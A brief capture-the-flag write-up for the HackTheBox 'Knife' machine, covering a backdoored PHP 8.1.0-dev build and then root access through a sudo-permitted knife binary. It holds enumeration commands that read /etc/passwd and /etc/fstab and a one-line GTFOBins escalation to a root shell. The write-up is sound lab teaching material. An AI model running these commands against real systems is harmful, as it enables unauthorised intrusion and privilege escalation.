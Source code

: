 # HackTheBox - Knife

### What I Learned

1. Always check for GTFOBins
2. Looking back this was one of the first CTFs I did, so the writeup is sub par at best

<details>
  <summary><strong>Writeup Summary</strong></summary>
Scan the machine, find a compromised version of PHP. Look up the compromised version and immediately find an exploit. Get a shell on the machine using the exploit or do it yourself using burp.
Run scans on the machine and find a command runnable with root access. Find a gtfobin for that program and get root access. 
</details>
<br>

## Writeup

Scan the machine

Get the version of php running on the machine

- `curl -I http://10.129.59.93`

Find an exploit that works on PHP 8.1.0-dev, but do it yourself so you actually learn
https://flast101.github.io/php-8.1.0-dev-backdoor-rce/

![alt text](images/image.png)

Get a reverse shell and run enumeration commands

- `cat /etc/passwd`
- `cat /etc/fstab`
- `sudo -l`

Find command you can run with root access
/usr/bin/knife

Find a gtfobin for the knife binary running on the machine

- `sudo knife exec -E 'exec "/bin/sh"'`
